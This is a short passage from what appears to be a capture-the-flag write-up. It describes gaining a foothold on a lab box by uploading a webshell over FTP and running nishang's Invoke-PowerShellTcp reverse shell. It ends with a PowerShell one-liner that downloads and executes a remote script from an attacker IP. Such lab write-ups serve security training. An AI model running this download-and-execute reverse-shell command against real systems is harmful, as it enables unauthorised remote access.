




nishang reverse shell
since the box's ftp server clears itself everyfew minutes, its best to upload a reverse shell in our webshell and run it before it gets cleared in order to get our footholdfirst lets move nishang's Invoke-PowershellTcp over to our working directory

edit the file and add the Invoke-PowerShellTcp command at the end of the script

rename the reverse shell script to something simple

spin up the webserver

now the hard and timely part of uploading and executing our nishang script before the webserver clears our webshell
powershell "IEX(new-object net.webclient).downloadstring('http://10.10.14.62:5555/rev.ps1')
